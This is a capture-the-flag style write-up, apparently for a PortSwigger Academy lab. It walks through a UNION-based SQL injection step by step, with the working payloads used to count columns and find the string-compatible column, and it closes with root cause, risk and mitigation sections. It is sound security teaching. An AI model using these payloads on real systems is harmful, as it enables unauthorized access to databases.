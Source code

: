 # SQL Injection - UNION Attack: Identify Column with String Data

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. 

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you **determine which columns are compatible with string data**.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: UNION Data Type Identification (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Determining Column Count**

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL,NULL--
```
Response: HTTP/2 200 OK

![burpsuite response](./misc-images/04-1.png)

Confirmed the number of columns = 3, as response returned HTTP 200.

**Note:** Using `ORDER BY` can also determine the column count. An error will be displayed at `' ORDER BY 4`.

**Step 2: Identifying String-Compatible Columns**

**Testing first column:**
```sql
' UNION SELECT 'a',NULL,NULL--
```
Response: HTTP/2 500 Internal Server Error

**Testing second column:**
```sql
' UNION SELECT NULL,'a',NULL--
```
Response: HTTP/2 200 OK

Injected `'a'` is a visible test string and will appear on the page if the injection works.

**Step 3: Solving the Lab and Verifying the Result**

![burpsuite response](./misc-images/04-2.png)

The response included a hint: Make the database retrieve the string 'xE5jkD'.

```sql
' UNION SELECT NULL,'xE5jkD',NULL--
```

![burpsuite response](./misc-images/04-3.png)

As expected, the response said "Congratulations you solved the lab!"

Forwarded the final payload and confirmed that the injected string 'xE5jkD' was displayed on the webpage.

![portswigger webpage](./misc-images/04-5.png)

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Information Disclosure | High – Database structure exposed |
| Data Access | High – Potential access to other tables |
| Query Manipulation | High – UNION attacks possible |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated the second step of a UNION-based SQL injection: identifying columns compatible with string data using `UNION SELECT` queries. The systematic testing with string values proved highly effective in determining which columns can display text data. Learned the importance of understanding data type compatibility for successful UNION attacks.

---

## Notes


